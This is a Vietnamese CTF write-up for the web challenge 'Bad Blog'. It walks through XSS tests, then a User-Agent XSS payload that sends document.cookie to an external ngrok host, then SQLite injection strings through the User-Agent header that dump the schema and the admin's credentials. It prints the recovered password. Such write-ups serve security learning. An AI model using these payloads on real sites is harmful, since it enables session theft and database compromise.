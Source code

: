 Bad Blog
===
**Category:** Web

**Author:** @congon4tor#2334

**Point:**

### Description
```
We just added analytics to our blogging website. Check them out!
```

### Overview
- Đầu tiên chúng ta vào trang web thì thấy có form đăng nhập và đăng kí. Thử đăng kí với username là admin thì nhận được thông báo là đã được sử dụng vì vậy mình đoán là phải access admin. 
- Đăng kí và đăng nhập với tài khoản bất kì thì chúng ta nhận được một trang tạo mới các bài blog và xem lại những gì bạn đăng và có cả những bài viết của admin. Mình thử tạo mới một bài và thử xss ở phần content với payload `<script>alert(1);</script>` thì có thể trigger được xss nhưng sau đó mình fetch tới url của mình thì lại không request, có vẻ như không có bot để visit
- Sau một khoảng thời gian stuck thì mình sử dụng dirsearch xem đường dẫn nào có thể sử dụng hay không thì thấy có `/profile` và nhận được kết quả 
![image](https://user-images.githubusercontent.com/54855855/111077195-3173ff80-8522-11eb-9c48-7cb27894c5a9.png)

### Solution
- Như những gì chúng ta tìm được ở tên thì thấy được răng ở profile là hiện tên bài post những ai ghé thăm và `User Agent`. Tới đây mình lại nghĩ tới việc thử xxs ở chỗ `User Agent` xem coi có thể trigger và có bot visit hay không. Ở đây mình dùng burp để hỗ trợ việc này
- Sau khi thử với payload
```
User-Agent: <script>document.location=' http://eb46a8d257bc.ngrok.io?c='+document.cookie;</script>
```
thì nhận được kết quả khá bất ngờ là đó là dump ra lỗi của sqlite
![image](https://user-images.githubusercontent.com/54855855/111077475-7fd5ce00-8523-11eb-8f45-fe516bc93261.png)
- Vậy bây giờ mình cùng bắt đầu từ sql injection ở chỗ User-Agent. Chúng ta thấy lỗi của chương trình in ra nó kèm theo query của sql
```
insert into visit (post_id, user_id, ua) values (5,2,'&lt;script&gt;document.location=' http://eb46a8d257bc.ngrok.io?c='+document.cookie;&lt;/script&gt;');
```
Qua query ở trên chúng ta thấy được input của chúng ta nhập vào `User-Agent` thì sẽ nằm ở tham số thứ 3 của values vậy bây giờ chúng ta chỉ cần injection vào nó để dump ra table và cột của database
- Query dump ra cột và table
```
'||(SELECT sql FROM sqlite_master))-- -
```
Và đây là cấu trúc của database
![image](https://user-images.githubusercontent.com/54855855/111077796-0c34c080-8525-11eb-811d-c1a3fb9596bd.png)
Bây giờ chúng ta chỉ cần dump ra username và password của admin
```
'||(SELECT username FROM user limit 1))-- -
```
password của admin `J3H8cqMNWxH68mTj`

###### Payload
- Đăng nhập với admin với password `J3H8cqMNWxH68mTj` sẽ thấy flag.